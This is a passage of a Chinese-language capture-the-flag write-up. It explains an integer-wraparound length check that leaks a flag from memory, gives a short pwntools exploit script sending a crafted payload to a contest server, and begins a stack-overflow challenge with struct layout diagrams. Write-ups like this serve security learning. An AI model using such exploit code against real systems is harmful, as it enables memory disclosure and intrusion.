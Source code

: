 这道题简直莫名其妙，是一个逻辑漏洞， X 型溢出。因为要求的输入格式比较蛋疼，所以我偷懒一直在逆向，而没有动手调试，没想到。。。

其实就是某个控制打印长度的变量，在检查这个值的时候是用 (len + 2) 去判断是否小于另外某个值的，而 len 这个值是一个 _WORD 类型，也就是说如果我输入 `\xff\xff` 加 2 后就会变得非常小，就能通过判断了，而打印的时候确是 `\xff\xff` 个字符，所以就会顺便把内存某个阴暗角落中的 flag 给打印出来了

```python
__author__ = "cMc_SARS"

from pwn import *

p = remote('159.203.87.2', 8888)
zip_data = "PK\x01\x02"
payload = zip_data + "AAAAAAAAAAAAAAAAAAAAAAAA"
payload += "\xff\xffAA"
payload += "AAAAAAAAAAAA"
payload += "AAAAAAAAAAAA"

payload = payload.ljust(0x90, 'A')

p.write(payload)
p.interactive()
```

# PWN500

这题还不错，但是还是有坑。

最开始发现了一个栈溢出，能控制 ebp，但是控制不了 eip，或者说只能让 eip 到一个不能利用的地方。在这一点上我想了非常久，最终没有结果，甚是生气*2

先画一下结构


```
+--------------+  <-- 0x00
|     name     |
+--------------+  <-- 0x10
| descriptions |
+--------------+  <-- 0xE0
|     math     |
+--------------+  <-- 0xE8
|    English   |
+--------------+  <-- 0xF0
|     dota     |
+--------------+  <-- 0xF8
```

```
+--------------+  <-- 0x00
|    number    |
+--------------+  <-- 0x04
|   real_len   |
+--------------+  <-- 0x08
|   essaylen   |
+--------------+  <-- 0x0C
|    unknow    |
+--------------+  <-- 0x10
|  essay_addr  |
+--------------+  <-- 0x18
|     Func     |
+--------------+
```
